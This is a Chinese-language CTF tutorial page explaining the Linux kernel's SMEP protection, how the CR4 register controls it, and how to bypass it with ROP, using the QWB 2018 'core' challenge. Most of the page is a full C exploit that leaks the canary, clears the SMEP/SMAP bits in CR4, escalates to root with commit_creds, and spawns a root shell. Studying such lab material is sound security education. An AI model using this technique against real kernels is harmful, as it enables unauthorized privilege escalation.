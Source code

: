 # bypass-smep

## SMEP 

爲了防止 `ret2usr` 攻擊，內核開發者提出了 `smep` 保護，smep 全稱 `Supervisor Mode Execution Protection`，是內核的一種保護措施，作用是當 CPU 處於 `ring0` 模式時，執行 `用戶空間的代碼` 會觸發頁錯誤；這個保護在 arm 中被稱爲 `PXN`。

通過 qemu 啓動內核時的選項可以判斷是否開啓了 smep 保護。
```bash
CISCN2017_babydriver [master●●] grep smep ./boot.sh
qemu-system-x86_64 -initrd rootfs.cpio -kernel bzImage -append 'console=ttyS0 root=/dev/ram oops=panic panic=1' -enable-kvm -monitor /dev/null -m 64M --nographic  -smp cores=1,threads=1 -cpu kvm64,+smep
```

也可以通過
```bash
CISCN2017_babydriver [master●●] grep smep /proc/cpuinfo 
flags		: fpu vme de pse tsc msr pae mce cx8 apic sep mtrr pge mca cmov pat pse36 clflush dts acpi mmx fxsr sse sse2 ss ht tm pbe syscall nx pdpe1gb rdtscp lm constant_tsc arch_perfmon pebs bts rep_good nopl xtopology nonstop_tsc cpuid aperfmperf pni pclmulqdq dtes64 monitor ds_cpl vmx est tm2 ssse3 sdbg fma cx16 xtpr pdcm pcid sse4_1 sse4_2 x2apic movbe popcnt aes xsave avx f16c rdrand lahf_lm abm 3dnowprefetch cpuid_fault epb invpcid_single pti tpr_shadow vnmi flexpriority ept vpid fsgsbase tsc_adjust bmi1 avx2 smep bmi2 erms invpcid rdseed adx smap intel_pt xsaveopt dtherm ida arat pln pts
......
```
檢測該保護是否開啓。

### smep 和 CR4 寄存器

系統根據 CR4 寄存器的值判斷是否開啓 smep 保護，當 CR4 寄存器的第 20 位是 1 時，保護開啓；是 0 時，保護關閉。

![smep](./figure/smep.jpg)

例如，當
```
$CR4 = 0x1407f0 = 000 1 0100 0000 0111 1111 0000
```
時，smep 保護開啓。而 CR4 寄存器是可以通過 mov 指令修改的，因此只需要
```asm
mov cr4, 0x1407e0
# 0x1407e0 = 101 0 0000 0011 1111 00000
```
即可關閉 smep 保護。

搜索一下從 `vmlinux` 中提取出的 gadget，很容易就能達到這個目的。

- 如何查看 CR4 寄存器的值？
	- gdb 無法查看 cr4 寄存器的值，可以通過 kernel crash 時的信息查看。爲了關閉 smep 保護，常用一個固定值 `0x6f0`，即 `mov cr4, 0x6f0`。

## 例題：強網杯2018 - core

這一次我們在啓動腳本中添加上 smep 與 smap 的選項：

```sh
qemu-system-x86_64 \
-m 128M \
-cpu qemu64-v1,+smep,+smap \
-kernel ./bzImage \
-initrd  ./rootfs.cpio \
-append "root=/dev/ram rw console=ttyS0 oops=panic panic=1 quiet kaslr" \
-s  \
-netdev user,id=t0, -device e1000,netdev=t0,id=nic0 \
-nographic  \
```

之後我們重新運行之前的 ret2usr 的 exp，發現直接 kernel panic 了，這是因爲我們想要執行用戶空間的函數指針，觸發了 SMEP 保護

![image.png](figure/ret2usr_failed.png)

那麼這裏我們只需要通過 ROP 來關閉 SMEP&SMAP 即可繼續 ret2usr，這裏筆者用與運算將 SMEP 與 SMAP 的兩位給清除掉了，實際上直接給 cr4 賦值 `0x6f0` 也是可以的（通常關了以後都是這個值）

前面我們使用 swapgs 和 iret 兩條指令來返回用戶態，這一次我們直接使用 `swapgs_restore_regs_and_return_to_usermode` 來返回用戶態

最終的 exp 如下：

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/types.h>

#define POP_RDI_RET 0xffffffff81000b2f
#define MOV_RDI_RAX_CALL_RDX 0xffffffff8101aa6a
#define POP_RDX_RET 0xffffffff810a0f49
#define POP_RCX_RET 0xffffffff81021e53
#define POP_RAX_RET 0xffffffff810520cf
#define SWAPGS_POPFQ_RET 0xffffffff81a012da
#define MOV_RAX_CR4_ADD_RSP_8_POP_RBP_RET 0xffffffff8106669c
#define AND_RAX_RDI_RET 0xffffffff8102b45b
#define MOV_CR4_RAX_PUSH_RCX_POPFQ_RET 0xffffffff81002515
#define PUSHFQ_POP_RBX_RET 0xffffffff81131da4
#define IRETQ 0xffffffff813eb448
#define SWAPGS_RESTORE_REGS_AND_RETURN_TO_USERMODE 0xffffffff81a008da

size_t commit_creds = NULL, prepare_kernel_cred = NULL;

void * (*prepare_kernel_cred_ptr)(void *);
int (*commit_creds_ptr)(void *);

size_t user_cs, user_ss, user_rflags, user_sp;

void saveStatus()
{
    __asm__("mov user_cs, cs;"
            "mov user_ss, ss;"
            "mov user_sp, rsp;"
            "pushf;"
            "pop user_rflags;"
            );
    printf("\033[34m\033[1m[*] Status has been saved.\033[0m\n");
}

void getRootPrivilige(void)
{
    (*commit_creds_ptr)((*prepare_kernel_cred_ptr)(NULL));
}

void getRootShell(void)
{   
    if(getuid())
    {
        printf("\033[31m\033[1m[x] Failed to get the root!\033[0m\n");
        exit(-1);
    }

    printf("\033[32m\033[1m[+] Successful to get the root. Execve root shell now...\033[0m\n");
    system("/bin/sh");
}

void coreRead(int fd, char * buf)
{
    ioctl(fd, 0x6677889B, buf);
}

void setOffValue(int fd, size_t off)
{
    ioctl(fd, 0x6677889C, off);
}

void coreCopyFunc(int fd, size_t nbytes)
{
    ioctl(fd, 0x6677889A, nbytes);
}

int main(int argc, char ** argv)
{
    printf("\033[34m\033[1m[*] Start to exploit...\033[0m\n");
    saveStatus();

    int fd = open("/proc/core", 2);
    if(fd <0)
    {
        printf("\033[31m\033[1m[x] Failed to open the file: /proc/core !\033[0m\n");
        exit(-1);
    }

    //get the addr
    FILE* sym_table_fd = fopen("/tmp/kallsyms", "r");
    if(sym_table_fd < 0)
    {
        printf("\033[31m\033[1m[x] Failed to open the sym_table file!\033[0m\n");
        exit(-1);
    }
    char buf[0x50], type[0x10];
    size_t addr;
    while(fscanf(sym_table_fd, "%llx%s%s", &addr, type, buf))
    {
        if(prepare_kernel_cred && commit_creds)
            break;

        if(!commit_creds && !strcmp(buf, "commit_creds"))
        {
            commit_creds_ptr = commit_creds = addr;
            printf("\033[32m\033[1m[+] Successful to get the addr of commit_cread:\033[0m%llx\n", commit_creds);
            continue;
        }

        if(!strcmp(buf, "prepare_kernel_cred"))
        {
            prepare_kernel_cred_ptr = prepare_kernel_cred = addr;
            printf("\033[32m\033[1m[+] Successful to get the addr of prepare_kernel_cred:\033[0m%llx\n", prepare_kernel_cred);
            continue;
        }
    }

    size_t offset = commit_creds - 0xffffffff8109c8e0;

    // get the canary
    size_t canary;
    setOffValue(fd, 64);
    coreRead(fd, buf);
    canary = ((size_t *)buf)[0];

    //construct the ropchain
    size_t rop_chain[0x100], i = 0;
    for(; i < 10;i++)
        rop_chain[i] = canary;

    rop_chain[i++] = MOV_RAX_CR4_ADD_RSP_8_POP_RBP_RET + offset;
    rop_chain[i++] = *(size_t*) "arttnba3";
    rop_chain[i++] = *(size_t*) "arttnba3";
    rop_chain[i++] = POP_RDI_RET + offset;
    rop_chain[i++] = 0xffffffffffcfffff;
    rop_chain[i++] = AND_RAX_RDI_RET + offset;
    rop_chain[i++] = MOV_CR4_RAX_PUSH_RCX_POPFQ_RET + offset;
    rop_chain[i++] = (size_t)getRootPrivilige;
    rop_chain[i++] = SWAPGS_RESTORE_REGS_AND_RETURN_TO_USERMODE + 22 + offset;
    rop_chain[i++] = *(size_t*) "arttnba3";
    rop_chain[i++] = *(size_t*) "arttnba3";
    rop_chain[i++] = (size_t)getRootShell;
    rop_chain[i++] = user_cs;
    rop_chain[i++] = user_rflags;
    rop_chain[i++] = user_sp;
    rop_chain[i++] = user_ss;

    write(fd, rop_chain, 0x800);
    coreCopyFunc(fd, 0xffffffffffff0000 | (0x100));
}
```


